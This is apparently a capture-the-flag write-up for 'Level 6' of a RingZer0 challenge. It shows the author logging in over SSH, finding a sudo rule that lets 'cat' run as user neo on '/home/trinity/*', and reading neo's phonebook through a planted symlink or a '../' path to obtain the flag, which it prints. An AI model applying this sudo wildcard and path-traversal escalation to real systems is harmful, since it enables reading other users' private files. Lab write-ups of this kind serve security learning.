 # Level 6

![](https://i.imgur.com/d6Cwkmp.png)

```shell
$ sshpass -p Flag-08grILsn3ekqhDK7cKBV6ka8B ssh trinity@challenges.ringzer0team.com -p 10090
```

![](https://i.imgur.com/6p1BA7Z.png)

```shell
trinity@forensics:~$ ls -la
total 72
drwxr-x--- 8 trinity trinity  4096 Jun 23 18:03 .
drwxr-xr-x 8 root    root     4096 May 30 18:08 ..
lrwxrwxrwx 1 trinity trinity     9 Jun  3 17:44 .bash_history -> /dev/null
-rwxr-x--- 1 trinity trinity   252 May 30 18:07 .bash_logout
-rwxr-x--- 1 trinity trinity  2632 May 30 18:07 .bashrc
drwx------ 2 trinity trinity  4096 May 31 02:23 .cache
-rw------- 1 trinity trinity    73 Jun 14 18:35 .lesshst
-rw------- 1 trinity trinity    60 Jun  1 15:16 .mysql_history
drwxrwxr-x 2 trinity trinity  4096 Jun  3 17:38 .nano
-rwxr-x--- 1 trinity trinity   674 May 30 18:07 .profile
drwxr-xr-x 2 trinity trinity  4096 Jun 18 16:09 .vim
-rw------- 1 trinity trinity 10850 Jun 23 18:03 .viminfo
drwxrwxr-x 5 trinity trinity  4096 Jun 20 01:45 _tmp
-rw-rw-r-- 1 trinity trinity    63 Jun 15 03:49 log
lrwxrwxrwx 1 trinity trinity    19 Jun 18 15:22 ne -> /home/neo/phonebook
-rwxr-x--- 1 trinity trinity   124 May 30 18:07 phonebook
drwxrwx--x 2 trinity trinity  4096 Jun 23 14:10 tmp
drwxrwxr-x 4 trinity trinity  4096 Jun 20 02:58 var
```

So, obviously, phonebook only `neo` THE CHOSEN ONE can read.

However, seems that someone make link ne to neo's phonebook, if we can `cat` this link, may find something.

To get permission to take place of neo, we need `sudo`.

```shell
trinity@lxc-sysadmin:~$ sudo cat ne
[sudo] password for trinity: 
Sorry, user trinity is not allowed to execute '/bin/cat ne' as root on lxc-sysadmin.

trinity@forensics:~$ sudo -l
Matching Defaults entries for trinity on lxc-sysadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User trinity may run the following commands on lxc-sysadmin:
    (neo) /bin/cat /home/trinity/*
```

Follow by clue :`(neo) /bin/cat /home/trinity/*`, let's go to `bin/cat /home/trinity/*` with chosen one :`neo`.

```shell
trinity@forensics:~$ sudo -u neo /bin/cat /home/trinity/*
Fri Jun 15 03:49:24 UTC 2018
trinity
Gathering.py
Gathering.py
The Oracle        1800-133-7133
Persephone        345-555-1244




change my current password FLAG-lRGLKGh2895wIAoOvcBbgk4oL
don't forget to remove this :) 
The Oracle        1800-133-7133
Persephone        345-555-1244





copy made by Cypher copy utility on /home/neo/phonebook
/bin/cat: /home/trinity/tmp: Is a directory
/bin/cat: /home/trinity/_tmp: Is a directory
/bin/cat: /home/trinity/var: Is a directory
```

If we follow by clue :`/home/neo/phonebook` and type `sudo -u neo /bin/cat /home/trinity/../neo/phonebook` may found exactly file.

But knowm someone left the link.

Answer:
```
FLAG-lRGLKGh2895wIAoOvcBbgk4oL
```